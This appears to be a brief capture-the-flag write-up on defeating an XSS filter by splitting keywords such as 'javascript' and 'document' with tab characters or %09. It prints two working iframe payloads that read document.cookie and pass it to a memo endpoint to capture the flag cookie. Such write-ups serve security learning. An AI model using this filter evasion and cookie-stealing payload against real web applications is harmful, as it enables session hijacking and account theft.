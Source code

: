 # solution

The most thing we need to do is find a way to bypass this function **xss_filter**. After searching and find some information and bruce force a bit. I find that we can use **tab button** or **%09** (url encode of tab button).

```
<iframe%20src="javascrip%09t:docum%09ent.locatio%09n.href=%27/memo?memo=%27%2bdocumen%09t.cookie"></iframe>
```

I try this payload on **/vuln** and see this (If it empty, dont worry cause we need to send this payload in other url to get flag cookie)
![alt text](image.png)<br>
It works, so the remain job we need to do is go to **flag** and put this payload

```
<iframe src="javascrip	t:docum	ent.locatio	n.href=%27/memo?memo=%27%2bdocumen	t.cookie"></iframe>
```

![alt text](image-1.png)<br>
![alt text](image-2.png)<br>

Note: You see it quite different cause in url we need %09 to indicate tab button, but in post we need to real tab in our payload instead using %09.

